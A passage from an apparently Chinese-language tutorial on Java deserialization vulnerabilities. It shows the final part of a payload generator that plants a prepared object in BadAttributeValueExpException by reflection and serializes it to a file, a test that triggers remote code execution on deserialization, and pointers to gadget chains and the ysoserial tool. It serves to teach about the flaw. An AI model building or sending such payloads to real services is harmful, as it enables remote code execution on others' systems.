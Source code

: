 ```java
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        //利用反射的方式来向对象传参
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        File f = new File("temp.bin");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(val);
        out.flush();
        out.close();
    }
}
```

```java
// ExploitTest.java
import lombok.Data;
import org.junit.Test;

import java.io.File;
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class ExploitTest {

    @Data
    class AnyClass{
        private String name;
        private int age;
    }

    @Test
    public void testExploit()throws Exception{
        ObjectInputStream is = new ObjectInputStream(new FileInputStream(new File("temp.bin")));
        AnyClass clazz = (AnyClass) is.readObject();       
    }
}
```

![](1.gif)

就像测试代码里写的那样，服务端本来是想反序列化一个AnyClass对象（编译器提示的ClassCastException），但实际上却造成了RCE。

### 工具的利用

构造Java反序列化漏洞Payload的方式不止一种，例如用`com.sun.org.apache.xalan`包中的`TemplatesImpl `类构造上一节描述的第二环节，用`PriorityQueue`、`Hashset`等类构造第一环节。相关的研究成果已经被[frohoff](https://twitter.com/frohoff)整理成了工具[ysoserial](https://github.com/frohoff/ysoserial)，它所支持生成的Payload如下:

![](8.png)
